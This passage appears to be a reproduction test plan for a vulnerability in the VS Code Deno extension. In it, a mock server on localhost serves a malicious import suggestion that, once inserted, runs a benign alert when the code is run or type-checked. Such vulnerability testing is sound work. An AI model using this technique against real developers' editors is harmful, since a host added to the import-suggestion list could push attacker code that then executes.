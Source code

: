         - Create a file `malicious_code.js` on this server that contains harmful JavaScript code (for testing purposes, this could be a simple `alert('Malicious Code Executed!')` or something that logs to console).

    2. **Configure VS Code Deno Extension:**
        - Open VS Code and go to Settings.
        - Search for "deno.suggest.imports.hosts" and edit the setting.
        - Add `localhost:8080` to the list of hosts.
        - Ensure Deno is enabled for your workspace.

    3. **Create a Test Project:**
        - Create a new Deno project or open an existing one.
        - Create a new TypeScript or JavaScript file (e.g., `test.ts`).

    4. **Trigger Auto-Completion:**
        - In `test.ts`, start typing an import statement: `import {`.
        - Wait for the auto-completion suggestions to appear.

    5. **Verify Malicious Suggestion:**
        - Check if "malicious-module" from `http://localhost:8080` appears in the import suggestions list.

    6. **Select and Insert Malicious Import:**
        - Select the "malicious-module" suggestion and press Enter to insert it into your code. Your import statement should now look like:
        ```typescript
        import { malicious_module } from "https://localhost:8080/malicious_code.js";
        ```

    7. **Run or Type-Check the Code:**
        - Try to run or type-check `test.ts` using Deno (e.g., `deno run test.ts` or simply saving the file which triggers type checking if enabled in VS Code).

    8. **Observe Malicious Code Execution (Simulated):**
        - If the setup is successful, you should observe the effect of the malicious code in `malicious_code.js`. In a real scenario, this could be arbitrary code execution. For this test case, observing the `alert('Malicious Code Executed!')` or console log confirms the vulnerability.

    9. **Cleanup:**
        - Remove `localhost:8080` from `deno.suggest.imports.hosts` setting.
        - Stop the mock malicious server.

    **Expected Result:** The test should demonstrate that by adding a domain under attacker's control to `deno.suggest.imports.hosts`, malicious import suggestions can be served and inserted into the code, which could lead to code execution when processed by Deno. This validates the "Malicious Import Suggestions via Compromised Hosts" vulnerability.

